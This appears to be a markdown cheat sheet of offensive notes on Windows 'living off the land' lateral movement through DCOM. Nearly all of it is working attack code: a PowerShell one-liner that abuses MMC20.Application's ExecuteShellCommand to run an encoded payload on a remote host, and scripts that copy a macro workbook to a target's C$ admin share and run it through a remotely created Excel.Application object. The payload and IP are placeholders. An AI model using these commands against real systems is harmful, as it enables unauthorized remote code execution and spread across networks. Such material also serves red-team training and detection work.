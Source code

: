 # Living off the Land

## 01 - Powershell

### 1.1 - MMC20.Application

```powershell
C:\> powershell -exec bypass -command "[activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')"

PS C:\> [activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')
```

### 1.2 - Excel.Application

```powershell
PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))
$com | Get-Member
```

`$ cat macro.vba`

---

```vbscript
Sub mymacro()
    'payload goes here
    Shell ("notepad.exe")
End Sub
```

`$ cat copyexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

`$ cat openexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "C:\path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# When running as system adminstrator privileges
$Path = "\\<IP>\C$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [System.IO.Directory]::CreateDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\excelmacrofile.xls")

$com.Run("mymacro")
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)